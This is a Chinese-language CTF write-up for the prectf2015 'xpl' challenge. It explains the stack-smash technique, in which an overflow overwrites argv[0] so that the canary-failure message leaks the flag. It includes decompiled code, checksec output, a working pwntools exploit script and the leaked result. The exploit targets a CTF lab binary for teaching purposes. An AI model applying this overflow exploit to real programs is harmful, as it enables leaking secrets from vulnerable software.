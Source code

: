 ```yaml
---
layout: post
title: pwn prectf2015 xpl
excerpt: "prectf2015 xpl wirteup"
categories: [Writeup]
comments: true
---
```


#### Stack smash
在程序加了 canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 `__stack_chk_fail` 函数来打印 argv[0] 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下：
```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
所以说如果我们利用栈溢出覆盖 argv[0] 为我们想要输出的字符串的地址，那么在 __fortify_fail 函数中就会输出我们想要的信息。


file
```bash
file xpl 
xpl: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=1856a84cc2663caa91e1511a2f0691652201fb95, not stripped
```
chechsec
```python
>>> from pwn import *
>>> print ELF('xpl').checksec()
[*] '/root/sploitfun/pre-ctf-2015/xpl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
ida打开binary,发现read函数存在栈溢出
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax@1
  int result; // eax@4
  __int64 v5; // rcx@4
  __int64 v6; // [sp+18h] [bp-118h]@1
  char v7; // [sp+20h] [bp-110h]@2
  char v8; // [sp+A0h] [bp-90h]@2
  __int64 v9; // [sp+128h] [bp-8h]@1

  v9 = *MK_FP(__FS__, 40LL);
  putenv("LIBC_FATAL_STDERR_=1", argv, envp);
  LODWORD(v3) = fopen64("flag.txt", "r");
  v6 = v3;
  if ( v3 )
  {
    fgets(&v7, 32LL, v3);
    fclose(v6);
    printf((unsigned __int64)"Interesting data loaded at %p\nYour username? ");
    fflush(0LL, &v7);
    read(0LL, &v8, 1024LL);
  }
  else
  {
    puts("Error leyendo datos");
  }
  result = 0;
  v5 = *MK_FP(__FS__, 40LL) ^ v9;
  return result;
}
```

一般存到EBP - 0x4(32位)或RBP - 0x8(64位)的位置，也就是ebp\rbp的上一个位置.如果攻击者利用栈溢出修改到了这个值，导致该值与存入的值不一致，__stack_chk_fail()函数将抛出异常并退出程序。

最终的exp
```python
from pwn import *

sh = process("./xpl")
addr = int(sh.recvline().split()[4], 16)        #这个地址就是flag.txt内容地址

payload = "A" * 376+p64(addr)                   #这个就是盖掉了main()函数中第0个参数(就是文件名称)
sh.sendline(payload)
result = sh.recvall()       ##canary检测到了异常,__stack_chk_fail 函数来打印 argv[0] 指针所指向的字符串
print result
```

最终的结果
```
python exp.py 
[+] Starting local process './xpl': pid 5667
[+] Receiving all data: Done (72B)
[*] Process './xpl' stopped with exit code -6 (SIGABRT) (pid 5667)
Your username? *** stack smashing detected ***: thisismorty
```